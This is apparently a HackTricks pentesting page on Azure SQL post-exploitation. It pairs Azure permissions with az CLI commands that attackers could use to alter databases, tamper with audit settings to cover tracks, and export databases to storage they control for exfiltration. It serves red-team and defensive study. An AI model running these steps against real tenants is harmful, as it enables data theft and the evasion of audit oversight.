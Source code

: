 # Az - SQL Database Post Exploitation

{{#include ../../../banners/hacktricks-training.md}}

## SQL Database Post Exploitation

For more information about SQL Database check:

{{#ref}}
../az-services/az-sql.md
{{#endref}}

### "Microsoft.Sql/servers/databases/read", "Microsoft.Sql/servers/read" && "Microsoft.Sql/servers/databases/write"

With these permissions, an attacker can create and update databases within the compromised environment. This post-exploitation activity could allow an attacker to add malicious data, modify database configurations, or insert backdoors for further persistence, potentially disrupting operations or enabling additional malicious actions.

```bash
# Create Database
az sql db create --resource-group <resource-group> --server <server-name> --name <new-database-name>

# Update Database
az sql db update --resource-group <resource-group> --server <server-name> --name <database-name> --max-size <max-size-in-bytes>
```

### "Microsoft.Sql/servers/elasticPools/write" && "Microsoft.Sql/servers/elasticPools/read"

With these permissions, an attacker can create and update elasticPools within the compromised environment. This post-exploitation activity could allow an attacker to add malicious data, modify database configurations, or insert backdoors for further persistence, potentially disrupting operations or enabling additional malicious actions.

```bash
# Create Elastic Pool
az sql elastic-pool create \
    --name <new-elastic-pool-name> \
    --server <server-name> \
    --resource-group <resource-group> \
    --edition <edition> \
    --dtu <dtu-value>

# Update Elastic Pool
az sql elastic-pool update \
    --name <elastic-pool-name> \
    --server <server-name> \
    --resource-group <resource-group> \
    --dtu <new-dtu-value> \
    --tags <key=value>
```

### "Microsoft.Sql/servers/auditingSettings/read" && "Microsoft.Sql/servers/auditingSettings/write"

With this permission, you can modify or enable auditing settings on an Azure SQL Server. This could allow an attacker or authorized user to manipulate audit configurations, potentially covering tracks or redirecting audit logs to a location under their control. This can hinder security monitoring or enable it to keep track of the actions. NOTE: To enable auditing for an Azure SQL Server using Blob Storage, you must attach a storage account where the audit logs can be saved.

```bash
az sql server audit-policy update \
  --server <server_name> \
  --resource-group <resource_group_name> \
  --state Enabled \
  --storage-account <storage_account_name> \
  --retention-days 7
```

### "Microsoft.Sql/locations/connectionPoliciesAzureAsyncOperation/read", "Microsoft.Sql/servers/connectionPolicies/read" && "Microsoft.Sql/servers/connectionPolicies/write"

With this permission, you can modify the connection policies of an Azure SQL Server. This capability can be exploited to enable or change server-level connection settings

```bash
az sql server connection-policy update \
  --server <server_name> \
  --resource-group <resource_group_name> \
  --connection-type <Proxy|Redirect|Default>
```

### "Microsoft.Sql/servers/databases/export/action"

With this permission, you can export a database from an Azure SQL Server to a storage account. An attacker or authorized user with this permission can exfiltrate sensitive data from the database by exporting it to a location they control, posing a significant data breach risk. It is important to know the storage key to be able to perform this.

```bash
az sql db export \
  --server <server_name> \
  --resource-group <resource_group_name> \
  --name <database_name> \
  --storage-uri <storage_blob_uri> \
  --storage-key-type SharedAccessKey \
  --admin-user <admin_username> \
  --admin-password <admin_password>

```

### "Microsoft.Sql/servers/databases/import/action"

With this permission, you can import a database into an Azure SQL Server. An attacker or authorized user with this permission can potentially upload malicious or manipulated databases. This can lead to gaining control over sensitive data or by embedding harmful scripts or triggers within the imported database. Additionaly you can import it to your own server in azure. Note: The server must allow Azure services and resources to access the server.

```bash
az sql db import --admin-user <admin-user> \
--admin-password <admin-password> \
--name <target-database-name> \
--server <azure-sql-server-name> \
--resource-group <resource-group-name> \
--storage-key-type SharedAccessKey \
--storage-key <storage-account-key> \
--storage-uri "https://<storage-account-name>.blob.core.windows.net/bacpac-container/MyDatabase.bacpac"
```

{{#include ../../../banners/hacktricks-training.md}}





